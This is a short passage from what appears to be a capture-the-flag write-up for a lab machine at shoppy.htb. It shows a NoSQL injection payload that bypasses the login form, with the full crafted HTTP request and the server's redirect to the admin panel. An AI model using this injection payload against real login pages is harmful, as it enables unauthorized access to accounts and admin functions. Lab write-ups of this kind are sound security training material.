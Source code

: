 ### `NoSQL` injection login request
payload: `admin'||'a'=='a`
```http
POST /login HTTP/1.1
Host: shoppy.htb
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://shoppy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shoppy.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX19FvvahQ%2B7ZEj%2FXSmcM95cOuWbQZOK%2BieIiFaolCJmdiE%2BF%2FdnL%2FRcwtHWHNQ1Ylydafx1MbTgo%2Bw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX19Mz5pAVIF%2FfhAv56FzvcYku%2BI0AI6QdKI%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX1%2BmZVS906gLD7DEiyvYL237LlAXC1qnJns%3D; rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FGU%2BjXzsZd2y0qidarEHYAs6%2Bm4sIgmDyAMSvmUlHELYFlTFUaP5dT; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2FJkvUtbKiJvcGDtYg6d4qCJmF%2BU3QwlZA%3D
Connection: close

username=admin'||'a'%3d%3d'a&password=admin
```

### `NoSQL` injection login response
```http
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sat, 12 Nov 2022 20:55:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3AbCTW2RS6B4oe9sA5yuMLcpZJu16-9zP4.8HQJpH1JTowqRrzq0w0uuhenRKXzDdnq1qN4pjklN%2FI; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```

After we bypassed the login we are in the `admin` panel of the website. 
